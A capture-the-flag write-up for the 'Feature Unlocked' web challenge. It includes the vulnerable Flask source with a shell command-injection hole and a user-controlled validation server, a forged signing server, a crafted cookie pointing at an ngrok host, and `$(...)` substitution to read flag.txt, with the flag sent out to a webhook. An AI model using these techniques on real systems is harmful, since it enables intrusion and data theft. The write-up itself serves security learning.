 # Feature Unlocked
## Description
> The world's coolest app has a brand new feature! Too bad it's not released until after the CTF..
>
> https://feature-unlocked-web-challs.csc.tf/

## Challenge Overview
This challenge wants us to access the feature page but it will redirect back to home page until the timer runs out (which is after 7 days)

![image](https://github.com/user-attachments/assets/76e98010-5efd-49f4-971d-64520971aeb4)
<details> 
  <summary> Source code for app.py</summary>
  
```py
import subprocess
import base64
import json
import time
import requests
import os
from flask import Flask, request, render_template, make_response, redirect, url_for
from Crypto.Hash import SHA256
from Crypto.PublicKey import ECC
from Crypto.Signature import DSS
from itsdangerous import URLSafeTimedSerializer

app = Flask(__name__)
app.secret_key = os.urandom(16)
serializer = URLSafeTimedSerializer(app.secret_key)

DEFAULT_VALIDATION_SERVER = 'http://127.0.0.1:1338'
NEW_FEATURE_RELEASE = int(time.time()) + 7 * 24 * 60 * 60
DEFAULT_PREFERENCES = base64.b64encode(json.dumps({
    'theme': 'light',
    'language': 'en'
}).encode()).decode()


def get_preferences():
    preferences = request.cookies.get('preferences')
    if not preferences:
        response = make_response(render_template(
            'index.html', new_feature=False))
        response.set_cookie('preferences', DEFAULT_PREFERENCES)
        return json.loads(base64.b64decode(DEFAULT_PREFERENCES)), response
    return json.loads(base64.b64decode(preferences)), None


@app.route('/')
def index():
    _, response = get_preferences()
    return response if response else render_template('index.html', new_feature=False)


@app.route('/release')
def release():
    token = request.cookies.get('access_token')
    if token:
        try:
            data = serializer.loads(token)
            if data == 'access_granted':
                return redirect(url_for('feature'))
        except Exception as e:
            print(f"Token validation error: {e}")

    validation_server = DEFAULT_VALIDATION_SERVER
    if request.args.get('debug') == 'true':
        preferences, _ = get_preferences()
        validation_server = preferences.get(
            'validation_server', DEFAULT_VALIDATION_SERVER)

    if validate_server(validation_server):
        response = make_response(render_template(
            'release.html', feature_unlocked=True))
        token = serializer.dumps('access_granted')
        response.set_cookie('access_token', token, httponly=True, secure=True)
        return response

    return render_template('release.html', feature_unlocked=False, release_timestamp=NEW_FEATURE_RELEASE)


@app.route('/feature', methods=['GET', 'POST'])
def feature():
    token = request.cookies.get('access_token')
    if not token:
        return redirect(url_for('index'))

    try:
        data = serializer.loads(token)
        if data != 'access_granted':
            return redirect(url_for('index'))

        if request.method == 'POST':
            to_process = request.form.get('text')
            try:
                word_count = f"echo {to_process} | wc -w"
                output = subprocess.check_output(
                    word_count, shell=True, text=True)
            except subprocess.CalledProcessError as e:
                output = f"Error: {e}"
            return render_template('feature.html', output=output)

        return render_template('feature.html')
    except Exception as e:
        print(f"Error: {e}")
        return redirect(url_for('index'))


def get_pubkey(validation_server):
    try:
        response = requests.get(f"{validation_server}/pubkey")
        response.raise_for_status()
        return ECC.import_key(response.text)
    except requests.RequestException as e:
        raise Exception(
            f"Error connecting to validation server for public key: {e}")


def validate_access(validation_server):
    pubkey = get_pubkey(validation_server)
    try:
        response = requests.get(validation_server)
        response.raise_for_status()
        data = response.json()
        date = data['date'].encode('utf-8')
        signature = bytes.fromhex(data['signature'])
        verifier = DSS.new(pubkey, 'fips-186-3')
        verifier.verify(SHA256.new(date), signature)
        return int(date)
    except requests.RequestException as e:
        raise Exception(f"Error validating access: {e}")


def validate_server(validation_server):
    try:
        date = validate_access(validation_server)
        return date >= NEW_FEATURE_RELEASE
    except Exception as e:
        print(f"Error: {e}")
    return False


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=1337)
```

</details>

### Routes:

- `/`

    - This route serves the homepage. If `preferences` cookie aren't set, it returns a response with the default `preferences` cookie.
      
- `/release`

    - It checks for an `access_token` in the cookies, which, if valid, redirects the user to the feature page.
    - If the token is not valid, the route attempts to validate the server. If successful, the user is given an `access_token`, unlocking the feature.
    - This route also accept `?debug` parameter, where the user can include their own validation server inside `preferences` cookie.
- `/feature`

    - This route provides access to the hidden feature, which involves processing user input through a shell command (`wc -w`) to count words.
    - The route ensures that only users with a valid `access_token` can access it.

## Solution
### Access to `/feature` page

- In order to access `/feature` page, we need to setup our own server that can generate public/private key pair and return date as 7 days after the `NEW_FEATURE_RELEASE`.

```py
from flask import Flask, jsonify
import time
from Crypto.Hash import SHA256
from Crypto.PublicKey import ECC
from Crypto.Signature import DSS

app = Flask(__name__)

key = ECC.generate(curve='p256')
pubkey = key.public_key().export_key(format='PEM')


@app.route('/pubkey', methods=['GET'])
def get_pubkey():
    return pubkey, 200, {'Content-Type': 'text/plain; charset=utf-8'}


@app.route('/', methods=['GET'])
def index():
    # Set the time to 7 days from now
    future_time = int(time.time()) + 7 * 24 * 60 * 60
    date = str(future_time)

    h = SHA256.new(date.encode('utf-8'))
    signature = DSS.new(key, 'fips-186-3').sign(h)

    return jsonify({
        'date': date,
        'signature': signature.hex()
    })


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=1338)
```

- Start the server in the terminal and run `ngrok` to expose our local server to the internet. 

- Send the `preferences` cookie with `validation_server` as our `ngrok` URL. Make sure to encode it to base64.
```
{"theme": "light", "language": "en", "validation_server": "https://33c9-2001-e68-5419-58e7-a0e7-ba44-62ec-b33d.ngrok-free.app"}
```
- Make sure `debug` GET parameter link `/release` is set to `True`.
- Check our `ngrok` server, we can see requests from the server.

![image](https://github.com/user-attachments/assets/d7094a45-26ba-4ec1-9e7d-53ad3b5f073d)

![image](https://github.com/user-attachments/assets/75f46598-037d-40e3-b1b7-cbc85e99ad2f)

We finally can access to `/feature` page.

![image](https://github.com/user-attachments/assets/630e624d-c1e7-4ff1-b8a9-9aa8670403f1)

### Command Injection
The feature page can count how many words are inside our input by using `echo` and `wc -w`. When I put `;` in the input, it gives us an error. 

![image](https://github.com/user-attachments/assets/f3ef16dd-b873-4ab8-afd8-7d4c7b0fc65c)

In order to read the flag.txt, we can use `$(...)` (Command substitution syntax)

> Command substitution is a shell feature that allows the output of a command to be used as an argument in another command.

![image](https://github.com/user-attachments/assets/b0186dd0-f545-4fa0-83f4-c8c552540034)

Another way is to send the flag back to our server as base64. We can use `Webhook` or `ngrok` as our receiving server.

![image](https://github.com/user-attachments/assets/59c43ffc-86f2-425e-b086-1ce9517260d3)

We get the encoded flag in our Webhook logs. 
![image](https://github.com/user-attachments/assets/c727dafd-4b19-4208-a87f-8fdd685ad873)
```
Q1NDVEZ7ZDFkX3kwdV83MW0zXzdyNHYzbF9mMHJfN2gxNV9mbDQ2PyF9
```

## Flag
```
CSCTF{d1d_y0u_71m3_7r4v3l_f0r_7h15_fl46?!}
```

